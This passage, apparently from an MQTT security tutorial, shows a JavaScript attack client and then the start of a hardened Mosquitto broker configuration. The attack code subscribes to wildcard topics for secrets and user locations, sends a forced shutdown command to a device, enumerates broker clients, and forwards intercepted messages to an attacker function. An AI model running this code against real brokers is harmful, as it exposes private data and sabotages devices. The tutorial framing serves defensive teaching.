client.on('connect', () => {
    // Subscribe to sensitive topics with wildcards
    client.subscribe('company/+/secrets/#');
    client.subscribe('devices/+/commands');
    client.subscribe('users/+/location');
    
    // Publish malicious commands to device topics
    client.publish('devices/temperature_sensor_1/command', JSON.stringify({
        action: 'shutdown',
        force: true
    }));
    
    // Topic enumeration attack
    client.subscribe('$SYS/broker/clients/+/connected');
});

client.on('message', (topic, message) => {
    console.log(`Intercepted: ${topic} -> ${message.toString()}`);
    sendToAttacker(topic, message.toString());
});
```
Defense Implementation:
```
// mosquitto.conf - Secure MQTT broker configuration
const mosquittoConfig = `
# Security settings
allow_anonymous false
password_file /etc/mosquitto/passwords
acl_file /etc/mosquitto/acls

# TLS configuration
listener 8883
cafile /etc/ssl/certs/ca.crt
certfile /etc/ssl/certs/server.crt
keyfile /etc/ssl/private/server.key
require_certificate true
use_identity_as_username true

# Rate limiting
max_connections 1000
max_connections_per_ip 10
message_size_limit 1048576
`;

// ACL configuration
const aclConfig = `
# Default deny all
topic deny #
